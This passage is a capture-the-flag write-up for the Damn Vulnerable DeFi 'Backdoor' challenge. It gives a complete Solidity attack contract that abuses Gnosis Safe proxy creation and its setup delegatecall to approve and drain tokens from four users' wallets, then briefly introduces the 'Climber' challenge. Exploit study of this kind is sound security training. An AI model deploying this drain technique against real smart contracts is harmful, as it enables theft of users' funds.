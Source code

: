 ```solidity
contract AttackBackdoor {
    
    address public masterCopy;
    IERC20 public immutable token;
    GnosisSafeProxyFactory public immutable proxyFactory; 
    IProxyCreationCallback public immutable wallet;
    
    constructor(address _masterCopy, address _token, address _proxyFactory, address _wallet){
        masterCopy = _masterCopy; 
        token = IERC20(_token);
        proxyFactory = GnosisSafeProxyFactory(_proxyFactory);
        wallet = IProxyCreationCallback(_wallet);
    }

    function approve(address spender, uint256 amount) public {
        token.approve(spender, amount);
    }

    function attack(address[] memory users) public {
        for(uint i; i<4; i++){
            bytes memory dataToApprove = abi.encodeWithSignature("approve(address,uint256)", address(this), 10 ether);
    
            address[] memory owners = new address[](1);
            owners[0] = users[i];
            bytes memory setUpData = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)", owners, 1, address(this), dataToApprove, address(0), address(0), uint256(0), address(0));

            GnosisSafeProxy proxy = proxyFactory.createProxyWithCallback(masterCopy, setUpData, 0, wallet); 
            
            token.transferFrom(address(proxy), msg.sender, 10 ether);
        }
    }
}
```

First we need to approve function, that will be delegate called by the proxy contract. This will approve the attack contract to transfer the distributed token. We need to make a token approving data and put into `setup()` function's payload. Then we can transfer the token to the attacker's address, and just repeat this 4 times. 


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Climber 
### Challenge description:
    There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the UUPS pattern.

